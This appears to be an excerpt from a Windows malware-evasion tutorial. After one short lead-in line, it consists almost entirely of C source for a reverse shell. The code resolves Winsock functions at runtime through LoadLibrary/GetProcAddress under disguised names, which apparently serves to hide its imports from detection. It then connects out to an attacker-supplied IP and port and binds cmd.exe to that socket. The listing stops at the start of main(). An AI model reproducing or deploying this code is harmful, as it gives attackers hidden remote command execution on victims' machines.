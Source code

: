 The code now looks like  :

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024
typedef int(WSAAPI* myNotWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
typedef SOCKET(WSAAPI* myNotWSASocketA)(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef unsigned(WSAAPI* myNotinet_addr)(const char *cp);
typedef u_short(WSAAPI* myNothtons)(u_short hostshort);
typedef int(WSAAPI* myNotWSAConnect)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int(WSAAPI* myNotclosesocket)(SOCKET s);
typedef int(WSAAPI* myNotWSACleanup)(void);

void RunShell(char* myip, int myport) {
        
        HMODULE hWs2_32 = LoadLibraryW(L"Ws2_32.dll"); 
        myNotWSAStartup notWSAStartup = (myNotWSAStartup) GetProcAddress(hWs2_32, "WSAStartup");
        myNotWSASocketA notWSASocketA = (myNotWSASocketA) GetProcAddress(hWs2_32, "WSASocketA");
        myNotinet_addr notinet_addr = (myNotinet_addr) GetProcAddress(hWs2_32, "inet_addr");
        myNothtons nothtons = (myNothtons) GetProcAddress(hWs2_32, "htons");
        myNotWSAConnect notWSAConnect = (myNotWSAConnect) GetProcAddress(hWs2_32, "WSAConnect");
        myNotclosesocket notclosesocket= (myNotclosesocket) GetProcAddress(hWs2_32, "closesocket");
        myNotWSACleanup notWSACleanup = (myNotWSACleanup) GetProcAddress(hWs2_32, "WSACleanup");

        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        notWSAStartup(MAKEWORD(2,2), &version);
        mySocket = notWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = notinet_addr(myip);
        addr.sin_port = nothtons(myport);

        if (notWSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            notclosesocket(mySocket);
            notWSACleanup();
        } else {
            printf("Connected to %s:%d\\n", myip, myport);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
```